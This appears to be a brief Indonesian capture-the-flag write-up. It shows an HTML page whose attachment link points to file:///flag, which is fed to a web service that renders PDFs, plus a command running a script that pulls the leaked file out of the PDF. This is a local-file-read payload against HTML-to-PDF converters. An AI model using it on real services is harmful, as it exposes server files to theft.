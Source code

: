 - Membuat HTML embed tag untuk read file. Dan expose ke publik.
  ```
  <!DOCTYPE html>
  <html>
  <head>
  <title></title>
  </head>
  <body>
  <a rel='attachment' href='file:///flag'>
  </body>
  ```

- Masukin URL ke web dan download pdf, pake script yg di direktori ini buat extract hasil.
  ```
  python ape.py ed7dccacd87e99f11dcc2dafaa170f69.pdf
  ```
